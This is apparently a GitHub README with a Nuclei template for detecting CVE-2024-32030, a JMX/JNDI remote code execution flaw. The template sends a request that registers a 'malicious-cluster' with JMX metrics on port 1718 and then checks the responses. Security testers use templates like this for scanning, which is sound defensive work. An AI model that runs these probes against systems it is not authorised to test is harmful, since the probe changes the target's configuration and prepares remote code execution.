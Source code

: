 
# CVE-2024-32030 Nuclei Template

## Description
This repository contains a Nuclei template for detecting the CVE-2024-32030 vulnerability. This vulnerability allows for remote code execution via JMX Metrics Collection JNDI Resolution.

## Vulnerability Details
- **ID:** CVE-2024-32030
- **Name:** JMX Metrics Collection JNDI RCE
- **Author:** Hüseyin TINTAŞ
- **Severity:** Critical
- **Description:** This template checks for the presence of the vulnerability by attempting to connect to a malicious JMX server.
- **Tags:** cve, cve2024, jmx, rce, cve2024-32030

## Template
```yaml
id: CVE-2024-32030

info:
  name: CVE-2024-32030 JMX Metrics Collection JNDI RCE
  author: Hüseyin TINTAŞ
  severity: critical
  description: >
    CVE-2024-32030 JMX Metrics Collection JNDI Resolution Remote Code Execution Vulnerability.
    This template checks for the presence of the vulnerability by attempting to connect to a malicious JMX server.
  tags: cve, cve2024, jmx, rce, cve2024-32030

requests:
  - method: POST
    path:
      - "{{BaseURL}}/api/clusters"
    headers:
      Content-Type: "application/json"
    body: |
      {
        "name": "malicious-cluster",
        "bootstrapServers": ["127.0.0.1:1718"],
        "metrics": {
          "type": "JMX",
          "port": 1718
        }
      }
    matchers:
      - type: word
        part: body
        words:
          - "malicious-cluster added successfully"

  - method: GET
    path:
      - "{{BaseURL}}/api/clusters/malicious-cluster"
    matchers:
      - type: word
        part: body
        words:
          - "malicious-cluster"

  - method: GET
    path:
      - "{{BaseURL}}/api/clusters/malicious-cluster/metrics"
    matchers:
      - type: word
        part: body
        words:
          - "metrics"
```

## Usage
To use this template, save it as `cve-2024-32030.yaml` and run it with Nuclei:
```sh
nuclei -t CVE-2024-32030.yaml -u http://target-server
```

## Contact

For any inquiries or further information, you can reach out to me through:

- [LinkedIn](https://www.linkedin.com/in/huseyintintas/)
- [Twitter](https://twitter.com/1337stif)
